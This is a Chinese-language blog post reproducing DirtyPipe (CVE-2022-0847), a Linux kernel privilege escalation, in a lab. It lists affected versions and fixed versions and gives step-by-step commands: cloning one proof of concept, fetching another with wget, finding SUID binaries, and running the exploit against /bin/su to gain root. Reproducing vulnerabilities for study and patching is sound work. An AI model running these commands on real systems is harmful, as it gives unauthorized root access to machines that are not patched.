 ```yaml
---
title: 【漏洞复现】DirtyPipe CVE-2022-0847 Linux 内核提权漏洞复现
date: 2022-03-08 12:00:08
id: 220308-120008
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081204783.png
tags:
- 漏洞复现
- 提权漏洞
- Linux
categories:
- 漏洞复现
---
```


# 0x00 前言

CVSS 评分：7.8

影响范围：5.8 <= Linux 内核版本 < 5.16.11 / 5.15.25 / 5.10.102

RT 通过 CVE-2022-0847 可覆盖重写任意可读文件中的数据，可将普通权限的用户提升到特权 root

这个漏洞作者将其命名为了 Dirty Pipe，一看到这名字讲道理就让人想到了 Dirty Cow，这是因为该漏洞的原理比较类似于 Dirty Cow，但这个漏洞更容易被利用。

# 0x01 漏洞检测

检测的方法很简单，直接 uname -r ，如果  5.8 <= Linux 内核版本 < 5.16.11 / 5.15.25 / 5.10.102 说明可能受到该漏洞的影响。

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081203032.png)

# 0x02 环境搭建

> 建议在搭建环境前，先打好快照

环境依赖：

- Ubuntu 16.04 或 18.04（推荐）
- Python >= 3.6 (不支持Python 2.x！)
- pip3

```
 git clone https://github.com/brant-ruan/metarget.git
 cd metarget/
 pip3 install -r requirements.txt
 sudo ./metarget cnv install cve-2022-0847
```

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081202460.png)

环境搭建好后，查看当前系统内核

```
 uname -r
```

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081202399.png)

可以看到系统内核已经是 5.8 的了，说明是可能受到该漏洞的影响了。

# 0x03 漏洞复现

## 方法一：CVE-2022-0847-DirtyPipe-Exploit

把 POC git 下来

```
 git clone https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit
 cd CVE-2022-0847-DirtyPipe-Exploit
```

开始提权

```
 gcc exploit.c -o exploit
 ./exploit
```

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081203539.png)

我这里提示 su: must be run from a terminal，没提权成功。

根据作者的解释，他的电脑快没电了，所以暂时还没时间解决这个问题，这 ......

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081203449.png)

## 方法二：dirtypipez.c

后来看 p 牛说到了网上的其他 POC，下面这个 POC 测试了一下，是可以提权的

```
 mkdir dirtypipez
 cd dirtypipez
 wget https://haxx.in/files/dirtypipez.c
 gcc dirtypipez.c -o dirtypipez
```

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081203441.png)

这个 POC 需要事先找到一个具有 SUID 权限的可执行文件，然后利用这个文件进行提权

使用以下命令可以找到这类文件

```
 find / -perm -u=s -type f 2>/dev/null
```

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081204857.png)

这里就以 /bin/su 为例了，直接 ./dirtypipez 跟上具有 SUID 权限的文件即可提权

```
 ./dirtypipez /bin/su 
```

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202203081204783.png)

# 0x04 漏洞修复

更新升级 Linux 内核到以下安全版本：

- Linux 内核 >= 5.16.11
- Linux 内核 >= 5.15.25
- Linux 内核 >= 5.10.102

> 参考文章：
>
> https://t.zsxq.com/imaqj2V
>
> https://mp.weixin.qq.com/s/b8DmtIerXuoC7f3nqaOVIw
>
> https://access.redhat.com/security/cve/cve-2022-0847

![img](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
